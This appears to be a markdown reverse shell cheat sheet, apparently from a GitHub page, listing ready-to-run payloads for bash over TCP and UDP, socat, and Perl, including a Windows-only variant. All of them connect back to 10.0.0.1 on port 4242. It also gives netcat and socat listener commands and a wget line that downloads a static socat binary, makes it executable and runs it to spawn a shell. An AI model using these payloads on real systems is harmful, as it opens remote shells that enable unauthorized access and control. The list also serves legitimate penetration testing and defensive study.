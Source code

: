 ```yaml
---
title: Reverse Shell Cheat Sheet
author: i4
date: M11-02-2022
---
```

# Reverse Shell Cheat Sheet

## Reverse Shell

### Bash TCP
```
  bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

  0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

### Bash UDP
```
  Victim:
  sh -i >& /dev/udp/10.0.0.1/4242 0>&1

  Listener:
  nc -u -lvp 4242
```

Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh,
pdksh, tcsh, bash

### Socat

```
  user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
  user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

```
  user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

The static socat binary can be found at
[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

```
  perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

  perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


  NOTE: Windows only
  perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
